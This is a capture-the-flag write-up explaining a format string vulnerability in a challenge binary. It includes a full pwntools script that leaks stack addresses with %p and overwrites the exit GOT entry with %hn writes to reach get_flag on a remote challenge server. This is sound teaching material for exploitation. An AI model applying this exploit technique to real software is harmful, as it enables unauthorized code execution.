



# Vulnerability

This is a basic GOT overwrite attack. The main vulnerability is of the use of `printf` without specifying the format strings ("%s", "%d" etc). This is present at two places, the main function and the menu function under option 3: Send a message. You can take a look at this in any decompiler like [binja](https://binary.ninja/):





Also taking a look at the function flow, exit is called after the menu function is done instead of returning. Incidentally, exit function also has an entry in the **got** (global offset table) of the program:



Therefore, if we can change the GOT address of the exit function to the get_flag function instead, we are done.

# Exploit

```
from pwn import *
# context.log_level = 'debug'
# io = process("exe")
io = remote("0.cloud.chals.io", 15600)         
io.sendline(b"%p"*52)
io.recvuntil(b"Hello, ")
resp = io.recv()
print(resp.split(b"0x"))
```

We first leak the stack at the first printf in the main function. This gives us a bunch of addresses but we are interested in the one which lies in the code block range (0x50000000 - 0x60000000)

```
[b'', b'80', b'f7f89620(nil)', b'70257025', b'70257025', b'70257025', b'70257025', b'70257025', b'70257025', b'70257025', b'70257025', b'70257025', b'70257025', b'70257025', b'70257025', b'70257025', b'70257025', b'70257025', b'70257025', b'70257025', b'70257025', b'70257025', b'70257025', b'70257025', b'70257025', b'70257025', b'70257025', b'70257025', b'70257025', b'f7d7000a', b'f7f984a0', b'ffd603e0', b'f7f9866c', b'f7f98b40', b'1', b'ffd603d0', b'f7f89000', b'f7fd7020', b'f7d80519', b'ffd61f36', b'70', b'f7fd7000', b'f7d80519', b'2', b'ffd60484', b'ffd60490', b'ffd603f0', b'f7f89000', 
```

Notice that the 48th element has a value in the range and looking at the last 3 characters (482), we come to know that it is indeed the main function's address!

Calculating the offsets using the decompiler we come to know that get_flag is at (0x122d - 0x1482) + main_address and exit_got is at (0x401c - 0x1482) + main_address

```
main_addr = int(b"0x"+resp.split(b"0x")[48],16)
get_flag_addr = main_addr- 597
exit_got = main_addr+11162
```

Now to overwrite the exit_got address with the get_flag_addr we can upload the exit_got address on the stack and then use `%n` to write on that address. Refer to this [video](https://www.youtube.com/watch?v=KgDeMJNK5BU) for a detailed explanation.

```
low = get_flag_addr & 0xFFFF            # Lower 2 bytes of the address
high = (get_flag_addr >> 16) & 0xFFFF    # Upper 2 bytes of the address

# The GOT address to overwrite is exit_got. We will write in two parts:
# - First write low to exit_got
# - Then write high to exit_got + 2

# Calculate the necessary padding
def create_fmt_payload(low, high, offset1, offset2):
    payload = b""
  
    # Add the addresses to the payload where we will write
    payload += p32(exit_got)        # First GOT address
    payload += p32(exit_got + 2)    # Second GOT address

    # Calculate padding for the lower 2 bytes
    if low > offset1:
        padding1 = low - offset1
    else:
        padding1 = 0x10000 + low - offset1  # Wrap around 0xFFFF if needed
  
    # Calculate padding for the higher 2 bytes
    if high > low:
        padding2 = high - low
    else:
        padding2 = 0x10000 + high - low

    # Build the format string
    payload += f"%{padding1}c%7$hn".encode()  # Write low at the first address
    payload += f"%{padding2}c%8$hn".encode()  # Write high at the second address

    return payload

# Create the format string payload
payload = create_fmt_payload(low, high, 8, 8)
```

Finally send the payload off to get the flag:

```
io.sendline(b"3")
# gdb.attach(io)
io.sendline(payload)
io.clean()
io.recvuntil(b"Please enter your message: ")
# io.interactive()
print(io.recvuntil(b"End of file."))
```

Here is the complete script for your reference:

```
from pwn import *
# context.log_level = 'debug'
# io = process("exe")                    # 43rd arg for local challenge
io = remote("0.cloud.chals.io", 15600)             # 48th arg for remote challenge
# io = remote("localhost",1337)
# gdb.attach(io)
io.sendline(b"%p"*52)
io.recvuntil(b"Hello, ")
resp = io.recv()
print(resp.split(b"0x"))
# print(resp.split(b"0x")[43])
main_addr = int(b"0x"+resp.split(b"0x")[48],16)
get_flag_addr = main_addr- 597
exit_got = main_addr+11162
print(f"main_addr: {hex(main_addr)}")
print(f"get_flag_addr: {hex(get_flag_addr)}")
print(f"exit_got: {hex(exit_got)}")

low = get_flag_addr & 0xFFFF            # Lower 2 bytes of the address
high = (get_flag_addr >> 16) & 0xFFFF    # Upper 2 bytes of the address

# The GOT address to overwrite is exit_got. We will write in two parts:
# - First write low to exit_got
# - Then write high to exit_got + 2

# Calculate the necessary padding
def create_fmt_payload(low, high, offset1, offset2):
    payload = b""
  
    # Add the addresses to the payload where we will write
    payload += p32(exit_got)        # First GOT address
    payload += p32(exit_got + 2)    # Second GOT address

    # Calculate padding for the lower 2 bytes
    if low > offset1:
        padding1 = low - offset1
    else:
        padding1 = 0x10000 + low - offset1  # Wrap around 0xFFFF if needed
  
    # Calculate padding for the higher 2 bytes
    if high > low:
        padding2 = high - low
    else:
        padding2 = 0x10000 + high - low

    # Build the format string
    payload += f"%{padding1}c%7$hn".encode()  # Write low at the first address
    payload += f"%{padding2}c%8$hn".encode()  # Write high at the second address

    return payload

# Create the format string payload
payload = create_fmt_payload(low, high, 8, 8)
print(payload.hex())
# payload += b"%8$hn"
io.sendline(b"3")
# gdb.attach(io)
io.sendline(payload)
io.clean()
io.recvuntil(b"Please enter your message: ")
# io.interactive()
print(io.recvuntil(b"End of file."))
```
